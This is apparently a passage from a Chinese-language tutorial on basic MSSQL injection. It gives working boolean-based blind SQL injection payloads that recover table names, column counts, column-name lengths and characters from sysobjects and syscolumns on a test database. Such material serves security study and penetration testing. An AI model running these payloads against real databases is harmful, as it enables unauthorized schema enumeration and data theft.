![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_rwRxAqeV.png)

求当前数据库表的ascii码值

```sql
select * from users where id = '1' and 117 = ascii(substring((select top 1 name from test..sysobjects where xtype='u'),1,1))--+
-- 求第二个表的ascii码值
select * from users where id = '1' and 101 = ascii(substring((select top 1 name from test..sysobjects where xtype='u' and name not in ('users')),1,1))--+
-- 依次类推，分别求解
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_26_FtCmIGlE.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_yj0foxmP.png)

求当前数据库某表的列名个数

```sql
-- 以下支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = (select id from test..sysobjects where name='users'))--+
-- 或
-- 以下只支持查询该库下的列，不支持跨库查询
select * from users where id = '1' and 3 = (select count(*) from test..syscolumns where id = object_id('users'))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_FT6ZgzCM.png)

![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_n8BjoquW.png)

求当前数据库某表中列名的长度

```sql
select * from users where id = '1' and 2 = (select top 1 len(name) from test..syscolumns where id = object_id('users'))--+
-- 依次类推求各个字段的长度
select * from users where id = '1' and 8 = (select top 1 len(name) from test..syscolumns where id = object_id('users') and len(name) not in(2))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_27_stBquwcK.png)

求当前数据库某表中列名的ascii码值

```sql
-- 可跨库查询
select * from users where id = '1' and 105 = ascii(substring((select top 1 name from test..syscolumns where id = (select id from test..sysobjects where name='users')),1,1))--+
-- 不跨库查询，推荐以下
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),1) from sysobjects),1,1))--+
-- {i} 为第i 个字段
select * from users where id = '1' and 105 = ascii(substring((select top 1 col_name(object_id('users'),{i}) from sysobjects),1,1))--+
```
![image.png](.//MSSQL 注入基础.assets/2023_05_19_10_41_28_1eA5oiuz.png)
